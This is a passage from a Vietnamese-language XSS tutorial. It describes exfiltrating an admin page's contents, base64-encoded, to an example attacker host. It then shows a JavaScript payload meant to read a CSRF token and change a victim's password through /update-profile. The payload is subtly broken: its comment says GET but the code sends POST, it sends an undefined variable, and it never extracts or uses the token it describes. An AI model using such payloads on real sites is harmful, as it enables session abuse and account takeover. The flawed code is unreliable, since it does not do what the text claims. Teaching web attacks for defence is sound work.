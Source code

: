 #### Giải Thích:

1. **Yêu cầu GET tới `/admin.php`**: Mã JavaScript gửi một yêu cầu GET tới trang quản trị (`/admin.php`) nơi có thể chứa thông tin nhạy cảm.
2. **Sử dụng `withCredentials = true`**: Điều này đảm bảo rằng các cookie (như cookie session) sẽ được gửi cùng với yêu cầu, giúp kẻ tấn công duy trì quyền truy cập vào phiên làm việc của nạn nhân.
3. **Mã hóa và gửi dữ liệu tới máy chủ tấn công**: Sau khi nhận được phản hồi từ `/admin.php`, mã JavaScript mã hóa dữ liệu này dưới dạng base64 và gửi đến máy chủ tấn công (ví dụ `http://attacker-server.com/exfil`).

---
# Khai thác Tấn công từ Sessions (Phiên làm việc) của Nạn nhân

Sau khi đã thảo luận về cách lấy dữ liệu từ ngữ cảnh người dùng của nạn nhân thông qua lỗ hổng XSS, chúng ta sẽ tiếp tục khám phá cách kích hoạt các hành động thay đổi trạng thái (state-changing actions) trong ứng dụng web. Vì XSS cho phép kiểm soát hoàn toàn phiên làm việc của nạn nhân, kẻ tấn công có thể kích hoạt bất kỳ tính năng nào trong ngữ cảnh của nạn nhân. Điều này có thể dẫn đến việc chiếm đoạt toàn bộ tài khoản của nạn nhân hoặc mở ra các vector tấn công khác.

Chúng ta sẽ tiếp tục sử dụng ứng dụng web mẫu đã được giới thiệu trong các phần trước để làm ví dụ.

### Chiếm Đoạt Tài Khoản

Ứng dụng web mẫu của chúng ta có một chức năng cập nhật hồ sơ người dùng, bao gồm thay đổi mật khẩu. Việc thay đổi mật khẩu tài khoản không yêu cầu mật khẩu cũ, và điều này khiến chúng ta có thể tận dụng lỗ hổng XSS để thay đổi mật khẩu của nạn nhân.

Dưới đây là yêu cầu HTTP để cập nhật tài khoản:

```
POST /update-profile HTTP/1.1
Content-Type: application/x-www-form-urlencoded
```

Vì vậy, khi thay đổi mật khẩu của tài khoản, kẻ tấn công chỉ cần gửi một yêu cầu POST đến endpoint `/update-profile` mà không cần mật khẩu cũ. Đây chính là điểm yếu mà kẻ tấn công có thể lợi dụng, đặc biệt khi ứng dụng web sử dụng token CSRF (Cross-Site Request Forgery) để bảo vệ.

Tuy nhiên, với XSS, kẻ tấn công có thể đọc được token CSRF và thêm vào yêu cầu của mình, qua đó bỏ qua bảo vệ này.

#### Quy Trình:

1. **Tiêm mã XSS** vào ứng dụng web để kích hoạt mã JavaScript từ máy chủ tấn công.
2. **Gửi yêu cầu GET tới `/home.php`** để lấy token CSRF hợp lệ.
3. **Trích xuất token** và sử dụng token này trong yêu cầu POST tiếp theo để thay đổi mật khẩu của nạn nhân.

Mã JavaScript tiêm vào có thể trông như sau:

```javascript
<script>
    // Gửi yêu cầu GET đến /home.php để lấy token CSRF
    var csrf_req = new XMLHttpRequest();
    csrf_req.open('POST', '/home.php', false);
    csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    csrf_req.withCredentials = true;
    csrf_req.send(params); // params chứa thông tin yêu cầu như username, token CSRF

    // Sau khi lấy token, gửi yêu cầu POST thay đổi mật khẩu
    var change_pass_req = new XMLHttpRequest();
    change_pass_req.open('POST', '/update-profile', false);
    change_pass_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
    change_pass_req.withCredentials = true;
    change_pass_req.send('password=new_password'); // Cập nhật mật khẩu
</script>
```